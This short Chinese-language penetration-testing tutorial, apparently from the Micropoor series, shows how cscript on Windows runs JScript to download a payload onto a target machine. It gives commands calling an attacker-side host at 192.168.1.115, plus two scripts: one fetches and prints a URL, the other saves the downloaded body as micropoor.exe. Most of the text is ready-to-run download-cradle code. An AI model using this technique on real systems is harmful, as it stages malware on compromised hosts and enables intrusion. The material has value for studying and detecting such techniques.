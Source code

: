 windows 全版本都会默认支持 js，并且通过cscript 来调用达到下载 payload 的目的。

**靶机：**windows 2003  

### 读取：
```bash
C:\test>cscript /nologo downfile.js http://192.168.1.115/robots.txt
```  
![](media/ac794b7eb3758d954dbf95912895dd41.jpg)

### 附代码：
```javascript
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
WScript.Echo(WinHttpReq.ResponseText);
```
### 写入：
```bash
C:\test>cscript /nologo dowfile2.js http://192.168.1.115/robots.txt
```

![](media/21081f49afc31e94235293e3337967b7.jpg)

### 附代码：
```javascript
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();

BinStream = new ActiveXObject("ADODB.Stream"); BinStream.Type = 1;

BinStream.Open(); BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile("micropoor.exe");
```

>后者的话：简单，易用，轻便。
>
>   Micropoor
